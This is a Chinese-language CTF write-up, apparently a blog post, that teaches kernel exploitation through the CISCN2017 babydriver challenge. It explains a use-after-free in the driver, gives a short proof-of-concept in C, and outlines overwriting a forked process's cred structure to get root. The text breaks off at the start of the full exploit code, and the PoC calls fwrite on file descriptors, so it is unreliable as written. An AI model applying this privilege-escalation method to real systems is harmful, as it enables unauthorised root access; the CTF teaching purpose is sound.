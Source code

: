 # kernel学习之路(二)


以CISCN2017-babydriver这道题来入门kernel pwn。



# 涉及知识

+ UAF

+ cred struct

+ tty_struct

+ kernel的gdb调试

# 利用cred struct来提权

这道题有两种解法，我们先讲第一种。

程序存在一个伪条件竞争的UAF，当我们利用open('/dev/babydrive',2)打开两个设备A和B后，对A设备通过ioctl来申请空间，当A被释放后，B可以操控A申请来的空间，这是因为在驱动程序中，保存空间地址的指针，是一个全局变量，故A和B可以同时访问。

这里我们可以写一个POC来证明这个漏洞的存在。

```` c
int f1=open("/dev/babydev",O_RDWR);
int f2=open("/dev/babydev",O_RDWR);
ioctl(f1,0x10001,0x80);
char buf[8]={0x61};
fwrite(f1,buf,8);
close(f1);
char buf2[8]={0x62};
fwrite(f2,buf2,8);
````

在fwrite处下断点后，获得申请空间的地址，来查看其值。f1设备对其写入了0x61，当其关闭后，f2又将0x62写入其中，证明f2设备可以操控f1释放后的空间。

那么如果我们这个释放后的空间被另一个进程申请作为其cred_struct的存储空间，我们不就可以修改器cred为0，及root权限了吗？

那么我们的思路就很清晰了，首先申请一个sizeof(cred_struct)大小的空间，释放掉，然后fork一个新进程，再修改空间为0，提权。

这里有一个需要解决的问题就是cred_struct究竟多大？得到其大小的方法有两一个。

+ 浏览源码，计算其结构的大小
+ 编译一个带符号的内核，直接查看

获得其大小后，就很简单了，直接上EXP。

```` c
/*
Author: Nopnoping
*/
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <string.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <pthread.h>

//use for save  environment of user space when to kernel space.
size_t user_cs,user_ss,user_sp,user_rflags;
void save_status()
{
	//sava cs,ss,sp,rflags
    __asm__("mov user_cs, cs;"
````